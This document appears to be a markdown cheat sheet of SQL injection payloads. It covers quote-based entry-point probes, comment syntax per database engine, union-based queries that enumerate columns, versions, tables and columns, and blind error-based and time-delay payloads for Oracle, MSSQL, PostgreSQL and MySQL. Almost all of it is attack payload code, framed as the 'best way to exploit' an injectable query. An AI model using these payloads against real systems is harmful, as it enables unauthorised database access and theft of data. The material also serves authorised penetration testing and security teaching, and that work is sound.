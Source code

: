 # Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

# Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it ╰(*°▽°*)╯

## Get number of columns
**MySQL, MSQL, PostgreSQL:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
## Get database versions
**Oracle:**
```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```
**MySQL, MSQL:**
```sql
SELECT @@version
```
**PostgreSQL:**
```sql
SELECT version()
```
## Get all tables
**Oracle:**
```sql
SELECT * FROM all_tables
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.tables
```
## Get all columns
**Oracle:**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
## Concatenate strings
**Oracle, PostgreSQL:**
```sql
'foo'||'bar'
```
**MSQL:**
```sql
'foo'+'bar'
```
**MySQL:**
```sql
'foo' 'bar' -- Note the space between the two strings
CONCAT('foo','bar')
```

# Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　

*These are not copy-pastable , you'll need to modify them to fit your already-working injection*

## Check your query can trigger an error response from the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

## Check your query can cause a time delay in the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**MSQL:**
```sql
IF (1=1) WAITFOR DELAY '0:0:10' 
```
**PostgreSQL:**
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL:**
```sql
SELECT IF(1=1,SLEEP(10),'a')
```